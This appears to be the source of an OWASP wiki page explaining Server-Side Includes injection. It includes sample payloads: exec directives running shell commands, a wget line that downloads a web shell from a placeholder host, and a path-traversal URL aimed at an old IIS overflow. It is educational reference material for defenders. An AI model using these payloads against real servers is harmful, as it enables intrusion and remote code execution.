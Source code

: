 ```yaml
---

layout: col-sidebar
title: Server-Side Includes (SSI) Injection
author: 
contributors: 
permalink: /attacks/Server-Side_Includes_(SSI)_Injection
tags: attack, Server-Side Includes (SSI) Injection
auto-migrated: 1

---
```


## Description

SSIs are directives present on Web applications used to feed an HTML
page with dynamic contents. They are similar to CGIs, except that SSIs
are used to execute some actions before the current page is loaded or
while the page is being visualized. In order to do so, the web server
analyzes SSI before supplying the page to the user.

The Server-Side Includes attack allows the exploitation of a web
application by injecting scripts in HTML pages or executing arbitrary
codes remotely. It can be exploited through manipulation of SSI in use
in the application or force its use through user input fields.

It is possible to check if the application is properly validating input
fields data by inserting characters that are used in SSI directives,
like:

`< ! # = / . " - > and [a-zA-Z0-9] `

Another way to discover if the application is vulnerable is to verify
the presence of pages with extension .stm, .shtm and .shtml. However,
the lack of these type of pages does not mean that the application is
protected against SSI attacks.

In any case, the attack will be successful only if the web server
permits SSI execution without proper validation. This can lead to access
and manipulation of file system and process under the permission of the
web server process owner.

The attacker can access sensitive information, such as password files,
and execute shell commands. The SSI directives are injected in input
fields and they are sent to the web server. The web server parses and
executes the directives before supplying the page. Then, the attack
result will be viewable the next time that the page is loaded for the
user's browser.

## Risk Factors

TBD

## Examples

### Example 1

The commands used to inject SSI vary according to the server operational
system in use. The following commands represent the syntax that should
be used to execute OS commands.

**Linux:**

List files of directory:

`<!--#exec cmd="ls" -->`

Access directories:

`<!--#exec cmd="cd /root/dir/">`

Execution script:

`<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->`

**Windows:**

List files of directory:

`<!--#exec cmd="dir" -->`

Access directories:

`<!--#exec cmd="cd C:\admin\dir">`

### Example 2

Other SSI examples that can be used to access and set server
information:

To change the error message output:

`<!--#config errmsg="File not found, informs users and password"-->`

To show current document filename:

`<!--#echo var="DOCUMENT_NAME" -->`

To show virtual path and filename:

`<!--#echo var="DOCUMENT_URI" -->`

Using the “config” command and “timefmt” parameter, it is possible to
control the date and time output format:

`<!--#config timefmt="A %B %d %Y %r"-->`

Using the “fsize” command, it is possible to print the size of selected
file:

`<!--#fsize file="ssi.shtml" -->`

### Example 3

An old vulnerability in the IIS versions 4.0 and 5.0 allows an attacker
to obtain system privileges through a buffer overflow failure in a
dynamic link library (ssinc.dll). The “ssinc.dll” is used to interpreter
process Server-Side Includes.
[CVE 2001-0506](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CAN-2001-0506).

By creating a malicious page containing the SSI code bellow and forcing
the application to load this page ([Path
Traversal](Path_Traversal "wikilink") attack), it’s possible to perform
this attack:

ssi_over.shtml

`<!--#include file=”UUUUUUUU...UU”-->`

PS: The number of “U” needs to be longer than 2049.

Forcing application to load the ssi_over.shtml page:

Non-malicious URL:

`www.vulnerablesite.org/index.asp?page=news.asp`

Malicious URL:

`www.vulnerablesite.org/index.asp?page=www.malicioussite.com/ssi_over.shtml`

If the IIS return a blank page it indicates that an overflow has
occurred. In this case, the attacker might manipulate the procedure flow
and executes arbitrary code.

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Command
    Execution](:Category:Command_Execution "wikilink")

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Code Injection](Code_Injection "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## References

  - <http://www.comptechdoc.org/independent/web/cgi/ssimanual/ssiexamples.html>
    - SSI Examples

\[\[Category:FIXME|link not working

  - <http://www.students.mines.edu/examples/> - CGI and SSI Examples

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[need content here](Category:FIXME "wikilink")
[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")